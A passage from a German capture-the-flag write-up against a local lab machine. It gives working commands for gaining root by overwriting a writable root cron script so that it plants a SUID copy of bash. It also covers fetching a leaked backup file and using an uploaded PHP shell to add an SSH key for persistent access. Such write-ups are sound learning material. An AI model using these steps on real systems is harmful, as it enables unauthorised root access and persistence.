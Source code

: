  ⇒ FLAG{SSH_PERSISTENCE}

## Flag 4: Privilege Escalation via Cron
Mechanismus:
cron-backup.sh läuft jede Minute als root aber der Nutzer CTF hat Lese und Schreibzugriff darau


Exploit-Steps:

Überschreiben des Cronjobs um eigene Rootshell die jedem Nutzer zugänglich ist zu erstellen:
#!/bin/bash
Legt die Bash als Interpreter fest.

cp /bin/bash /tmp/rootbash
Kopiert die System-Shell (/bin/bash) nach /tmp/rootbash.

chmod +s /tmp/rootbash
Setzt das SUID-Bit auf die kopierte Shell, wodurch jeder, der /tmp/rootbash ausführt, sie mit den Rechten des Dateieigentümers (hier: root) startet.

chmod +x /usr/local/bin/cron-backup.sh
Macht das soeben angelegte Skript ausführbar, damit der Cron-Daemon es bei seiner nächsten Ausführung (in der Regel als root) laufen lässt und so die suid-versehene Bash ablegt.


Als ctf /usr/local/bin/cron-backup.sh überschreiben:

    cat > /usr/local/bin/cron-backup.sh <<'EOF'
    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash
    EOF
    chmod +x /usr/local/bin/cron-backup.sh

Warten (≤ 1 Minute) bis Cron läuft

Root-Shell nutzen:

    /tmp/rootbash -p
    cat /root/flag4.txt   

⇒ FLAG{CRON_ROOT}

## Zusammenfassung

Flag	Vector	Abruf-Kommando

#1	Backup-Leak in Backup Ordner	

    curl http://localhost:8080/backup/flag1.txt

#2	SQLi im ndk_steppingpack	siehe UNION-Exploit oben

#3	File-Upload → SSH-Key in authorized_keys

    curl -X POST --data-urlencode "key=$(<~/.ssh/id_ed25519.pub)"  http://localhost:8080/modules/orderfiles/data/uploads/exampleshell.php
    ssh -i ~/.ssh/id_ed25519 -p 2222 ctf@localhost
